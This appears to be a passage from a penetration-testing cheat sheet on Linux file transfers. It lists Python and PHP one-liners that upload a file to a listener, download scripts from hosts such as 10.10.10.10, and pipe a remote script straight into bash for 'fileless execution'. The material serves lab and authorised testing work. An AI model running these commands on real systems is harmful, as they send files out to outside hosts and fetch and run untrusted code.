 ### Linux

{% tabs %}
{% tab title="Python3 Upload" %}
{% code overflow="wrap" %}
```bash
# starting an uploadserver
python3 -m uploadserver 
# uploading a file
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("file1","rb")})'
```
{% endcode %}
{% endtab %}

{% tab title="Python Download" %}
{% code overflow="wrap" %}
```bash
# python2.7
python2.7 -c 'import urllib;urllib.urlretrieve ("https://script.sh", "script.sh")'
# python3
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://script.sh", "script.sh")'
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="PHP Download (1)" %}
{% code overflow="wrap" %}
```bash
php -r '$file = file_get_contents("https://10.10.10.10/script.sh"); file_put_contents("script.sh",$file);'
```
{% endcode %}
{% endtab %}

{% tab title="PHP Download (2)" %}
{% code overflow="wrap" %}
```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://10.10.10.10/script.sh", "rb"); $flocal = fopen("script.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
{% endcode %}
{% endtab %}

{% tab title="PHP Fileless Execution" %}
{% code overflow="wrap" %}
```bash
php -r '$lines = @file("https://10.10.10.10/script.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
{% endcode %}
{% endtab %}
{% endtabs %}
